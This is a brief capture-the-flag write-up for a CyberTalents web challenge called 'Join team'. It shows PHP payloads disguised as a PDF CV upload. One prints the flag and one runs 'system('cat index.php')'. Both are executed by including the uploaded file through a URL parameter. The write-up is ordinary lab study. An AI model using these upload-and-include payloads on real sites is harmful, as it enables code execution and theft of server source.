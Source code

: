 ## Challenage name: Join team
Link: https://cybertalents.com/challenges/web/join-team

## Solution: 
There is nothing helpful in the code ><
1) Let's try to upload our CV 
![Upload](https://user-images.githubusercontent.com/55226688/84438883-ec900500-ac3f-11ea-90c9-49cf3e8b70e2.png)

I used the notepad and I wrote this and named it echo.pdf
 ` <?php echo $flag; ?> `
 
 Then changed the URL to : ` http://35.225.68.109/join-team/index.php?data/echo.pdf `
 
 the result: 
 
 ![Upload](https://user-images.githubusercontent.com/55226688/84438965-134e3b80-ac40-11ea-9b6b-ee2b30aceee3.png)

2) Let's try different thing:
` <?php system('cat index.php'); ?> `
save it as PDF upload it again

Incepact the code

![Upload](https://user-images.githubusercontent.com/55226688/84439381-c323a900-ac40-11ea-9f25-fdf30c60540a.png)
 

